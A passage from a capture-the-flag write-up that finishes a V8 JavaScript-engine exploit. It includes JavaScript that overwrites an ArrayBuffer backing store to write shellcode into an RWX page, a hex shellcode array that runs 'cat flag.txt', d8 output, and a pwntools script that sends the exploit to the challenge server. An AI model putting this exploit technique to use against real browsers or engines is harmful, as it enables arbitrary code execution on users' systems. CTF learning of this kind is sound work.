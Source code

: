 I get an offset of `0x67`. In reality it is `0x68` (pointer tagging!), but who cares.

Now we can use the `ArrayBuffer` technique, because we know all the bits of the address! We can just yoink it directly from the oob-v8 writeup (slightly changing `0x20` to `0x14`, as that is the new offset with compression):

```javascript
function copy_shellcode(addr, shellcode) {
    // create a buffer of 0x100 bytes
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    
    // overwrite the backing store so the 0x100 bytes can be written to where we want
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x14n;
    arb_write(backing_store_addr, addr);

    // write the shellcode 4 bytes at a time
    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}
```

I am going to grab the shellcode for `cat flag.txt` from [this writeup](https://yysecurity.tistory.com/438), because I suck ass at working out endianness and it's a lot of effort for a fail :)))

```javascript
payload = [0x0cfe016a, 0x2fb84824, 0x2f6e6962, 0x50746163, 0x68e78948, 0x7478742e, 0x0101b848, 0x01010101, 0x48500101, 0x756062b8, 0x606d6701, 0x04314866, 0x56f63124, 0x485e0c6a, 0x6a56e601, 0x01485e10, 0x894856e6, 0x6ad231e6, 0x050f583b]
copy_shellcode(rwx_base, payload);
f();
```

Running this:

```bash
$ ./d8 exploit.js 
[+] Address of Arbitrary RW Array: 0x8086551
[+] RWX Region located at 0xf06b12a5000
cat: flag.txt: No such file or directory
```

Ok, epic! Let's deliver it remote using the same script as [Kit Engine](picoctf-2021-kit-engine.md):

```python
from pwn import *

with open("exploit.js", "rb") as f:
    exploit = f.read()

p = remote('mercury.picoctf.net', 60233)
p.sendlineafter(b'5k:', str(len(exploit)).encode())
p.sendlineafter(b'please!!\n', exploit)

p.recvuntil(b"Stdout b'")
flag = p.recvuntil(b"\\")[:-1]
print(flag.decode())
```
